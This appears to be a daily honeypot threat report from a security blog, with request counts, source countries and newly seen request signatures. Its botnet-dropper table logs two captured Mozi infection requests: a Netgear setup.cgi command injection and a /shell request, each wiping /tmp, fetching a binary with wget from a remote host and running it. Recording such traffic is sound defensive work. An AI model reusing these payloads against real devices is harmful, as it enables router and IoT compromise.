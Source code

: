 ```yaml
---
title: "Report: 2025-06-25 "
date: 2025-06-25
desciption: "Report: 2025-06-25" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-25 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 2 stage 1 IP address(es), linked to 2 dropper URL(s).  

There are 10 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 3295 requests were recorded during the day, originating from 2 different countries, with a peak of 2685 requests coming from GB.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |

## botnet_dropper_behaviour
| remote_addr     | request                                                                                                                                                                       |
|:----------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 222.138.100.15  | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://222.138.100.15:54497/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0 |
| 117.211.157.209 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://117.211.157.209:52255/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                               |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|      |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                              |
|-----:|----------------------:|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|    8 |                     7 | GET /client/login HTTP/1.1                                                                                                                                                                                                                                                                                                                           |
|   44 |                     2 | GET /auth/login HTTP/1.1                                                                                                                                                                                                                                                                                                                             |
|  932 |                     1 | \x12\x01\x00^\x00\x00\x01\x00\x00\x00$\x00\x06\x01\x00*\x00\x01\x02\x00+\x00\x01\x03\x00,\x00\x04\x04\x000\x00\x01\x05\x001\x00$\x06\x00U\x00\x01\xFF\x04\x07\x0C\xBC\x00\x00\x00\x00\x00\x00\x15\xD0\x00\xAF/\xA9r\xF7\x7F\x00\x00\x10\xF8\xEA\x93\xD7\x00\x00\x00\xE0\x81\xCEr\xF7\x7F\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01 |
|  948 |                     1 | \x00\x0E8\xE1\xB1\xE8\xA5\xD5\xE7H3\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                              |
|  952 |                     1 | GET /favicons/manifest.json HTTP/1.1                                                                                                                                                                                                                                                                                                                 |
|  957 |                     1 | HELF<\x00\x00\x00                                                                                                                                                                                                                                                                                                                                    |
|  958 |                     1 | \x00\x0E\x08\xE1\xB1\xE8\xA5\xD5\xE7H3\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                           |
| 1059 |                     1 | GET /odinhttpcall1750879510 HTTP/1.1                                                                                                                                                                                                                                                                                                                 |
| 1061 |                     1 | GET /OdinHttpCall1750879510 HTTP/1.1                                                                                                                                                                                                                                                                                                                 |
| 1062 |                     1 | GET /Odin/http/call1750879510 HTTP/1.1                                                                                                                                                                                                                                                                                                               |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                  2685 | GB                 |
|  1 |                   219 | US                 |
|  2 |                    52 | HK                 |
|  3 |                    47 | BG                 |
|  4 |                    45 | DE                 |
|  5 |                    40 | NL                 |
|  6 |                    23 | JP                 |
|  7 |                    20 | SG                 |
|  8 |                    15 | RU                 |
|  9 |                    15 | FR                 |
| 10 |                    15 | AU                 |
| 11 |                    11 | RO                 |
| 12 |                    11 | SE                 |
| 13 |                     9 | UA                 |
| 14 |                     8 | IN                 |
| 15 |                     7 | SC                 |
| 16 |                     7 | PT                 |
| 17 |                     6 | ES                 |
| 18 |                     6 | PL                 |
| 19 |                     6 | CH                 |
| 20 |                     6 | HU                 |
| 21 |                     5 | KR                 |
| 22 |                     5 | BE                 |
| 23 |                     4 | BR                 |
| 24 |                     4 | CN                 |
| 25 |                     3 | KZ                 |
| 26 |                     3 | GH                 |
| 27 |                     2 | AZ                 |
| 28 |                     2 | LT                 |
| 29 |                     2 | MC                 |
| 30 |                     2 | IE                 |
| 31 |                     2 | PA                 |
| 32 |                     2 | AO                 |
| 33 |                     2 | IT                 |
| 34 |                     1 | GR                 |
| 35 |                     1 | TR                 |
| 36 |                     1 | CA                 |
| 37 |                     1 | IR                 |
